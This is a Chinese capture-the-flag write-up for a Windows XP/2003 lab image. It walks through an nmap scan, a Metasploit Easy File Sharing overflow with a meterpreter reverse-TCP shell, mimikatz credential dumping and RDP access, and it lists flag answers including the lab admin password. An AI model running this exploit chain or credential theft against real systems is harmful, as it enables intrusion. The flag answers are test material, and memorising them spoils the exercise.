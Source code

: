 ```yaml
---
title: PY-Windows2020-J
date: 2021-09-10 15:06:07
tags:
password: zhimakaimen123.
---
```


# 磐云P100-Windows2020.img

## 0x01 - 信息收集

> 先通过nmap 扫描下 这个系统

```shell
nmap -sV 192.168.83.130 -O                                         255 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-10 13:31 CST
Nmap scan report for 192.168.83.130
Host is up (0.0018s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
25/tcp   open  smtp          Microsoft ESMTP 6.0.2600.5512
80/tcp   open  http          Easy File Sharing Web Server httpd 6.9
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  https?
444/tcp  open  ssl/snpp?
445/tcp  open  microsoft-ds  Microsoft Windows XP microsoft-ds
1026/tcp open  msrpc         Microsoft Windows RPC
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8080/tcp open  http          Microsoft IIS httpd 5.1
MAC Address: 52:54:00:4A:F7:50 (QEMU virtual NIC)
Device type: general purpose
Running: Microsoft Windows XP|2003
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003
OS details: Microsoft Windows XP SP2 or SP3, or Windows Server 2003
Network Distance: 1 hop
Service Info: Host: pysecanq-fc05b3; OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.14 seconds

```

可以看出这是个 **XP** 或 **2003** 的系统 ，用 **Easy File Sharing Web Server** 开启了一个 ***WEB*** 服务，远程桌面端口也开放着。

## 0x02 - 漏洞利用

> Easy File Sharing Web Server 经查询 该软件存在远程溢出漏洞，可以使用 msf模块直接利用
>
> exploit windows/http/easyfilesharing_seh

```shell
#设置目标 ip
set RHOST ip
#设置目标 port
set RPORT 80
#设置payload
set payload windows/meterpreter/reverse_tcp

```

最终效果

```shell
msf6 exploit(windows/http/easyfilesharing_seh) > show options 

Module options (exploit/windows/http/easyfilesharing_seh):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.83.130   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   80               yes       The target port (TCP)
   
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.83.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Easy File Sharing 7.2 HTTP

```

检查无误 直接 exploit

**注意 该漏洞一旦利用 程序就会崩溃退出 所以 只有一次机会**

## 0x03 - flag答题

1. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行系统服务及版本扫描渗透测试，并将该操作显示结果中8080端口对应的服务版本信息字符串作为Flag值提交；

   ```bash
   Microsoft IIS httpd 5.1
   ```

   

2. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景网络连接信息中的DNS信息作为Flag值 (例如：114.114.114.114) 提交；

   ```bash
   216.146.35.35
   ```

   

3. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景中的当前最高账户管理员的密码作为Flag值提交； 

   ```bash
   tsgem2020
   ```

   

4. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景桌面上111文件夹中唯一一个后缀为.docx文件的文件名称作为Flag值提交；

   ```bash
   kwanqc.docx
   ```

   

5. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景桌面上111文件夹中唯一一个后缀为.docx文件的文档内容作为Flag值提交；

   ```bash
   gqzmjh
   ```

   

6. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景桌面上222文件夹中唯一一个图片中的英文单词作为Flag值提交；

   ```bash
   capable
   ```

   

7. 通过本地PC中渗透测试平台Kali2.0对服务器场景Windows2020进行渗透测试，将该场景中回收站内文件的文档内容作为Flag值提交。

   ```bash
   qvJhyc
   ```

## 0x04 - S13PyXP 答题步骤

1. exp后先 **提权** 到 **system**

   {% asset_img 001.png %}

2. 加载 **kiwi** 模块

   > kiwi 模块之前叫 mimikatz
   >
   > 老版本的 kali 要 load mimikatz 别搞错了

   {% asset_img 002.png %}

3. 利用 **kiwi** 获取 **Administrator** 的 **密码**

   {% asset_img 003.png %}

4. **rdesktop** 远程一顿梭哈就行 

   {% asset_img 004.png %}

   {% asset_img 005.png %}

## 0x05 - 写在最后

**再看不懂 就重开吧 ！！！**

> 参考文章：https://saucer-man.com/information_security/79.html#cl-9
>
> 参考文章：https://blog.csdn.net/qq_36374896/article/details/107005461

